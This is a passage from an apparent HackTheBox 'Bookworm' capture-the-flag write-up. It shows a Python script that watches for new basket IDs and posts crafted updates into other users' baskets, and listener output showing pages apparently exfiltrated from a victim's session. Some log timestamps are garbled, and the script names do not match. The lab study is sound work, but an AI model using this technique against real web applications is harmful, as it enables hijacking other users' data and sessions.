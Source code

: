 ```
    except requests.RequestException as e:
        print(f"Error fetching ID: {e}")
    return None

while True:
    try:
        current_id = get_id()
        if current_id and not current_id == prev_id:
            print(f"Found new basket: {current_id}")
            prev_id = current_id
            url = f"http://bookworm.htb:80/basket/{current_id}/edit"
            print(f"Sending basket update to: {url}")
            requests.post(url, headers=headers, cookies=cookies, data=data)
    except KeyboardInterrupt:
        print('Exiting...')
        exit()
    except Exception as e:
        print(f"Error: {e}")
```

To run this code we need running `post.py` and `basket.py`

```
 python3 post.py | grep href
10.10.14.122 - - [23/Jan//images/bookworm/2024 07:22:49] "POST / HTTP/1.1" 200 -
10.10.11.215 - - [23/Jan//images/bookworm/2024 07:23:19] "POST / HTTP/1.1" 200 -
      href="/static/css/bootstrap.min.css"
        <a class="navbar-brand" href="#">Bookworm</a>
              <a class="nav-link " href="/">Home</a>
              <a class="nav-link " href="/shop">Shop</a>
                <a class="nav-link " href="/basket">Basket (0)</a>
                <a class="nav-link active" href="/profile">ddsd</a>
    <a href="/logout" class="btn btn-danger w-100">Logout</a>
        <a href="/order/168">View Order</
        <a href="/order/170">View Order</
        <a href="/order/172">View Order</
        <a href="/order/185">View Order</
        <a href="/order/230">View Order</
10.10.11.215 - - [23/Jan//images/bookworm/2024 07:23:19] "POST / HTTP/1.1" 200 -
      href="/static/css/bootstrap.min.css"
        <a class="navbar-brand" href="#">Bookworm</a>
              <a class="nav-link " href="/">Home</a>
              <a class="nav-link " href="/shop">Shop</a>
                <a class="nav-link " href="/basket">Basket (0)</a>
                <a class="nav-link active" href="/profile">Joe Bubbler</a>
    <a href="/logout" class="btn btn-danger w-100">Logout</a>
        <a href="/order/1">View Order</
```

I got the response from `basket.py` 

```
─# python3 update.py
Found new basket: 659
Sending basket update to: http://bookworm.htb:80/basket/659/edit
Found new basket: 660
Sending basket update to: http://bookworm.htb:80/basket/660/edit
Found new basket: 661
Sending basket update to: http://bookworm.htb:80/basket/661/edit
Found new basket: 662
Sending basket update to: http://bookworm.htb:80/basket/662/edit
```
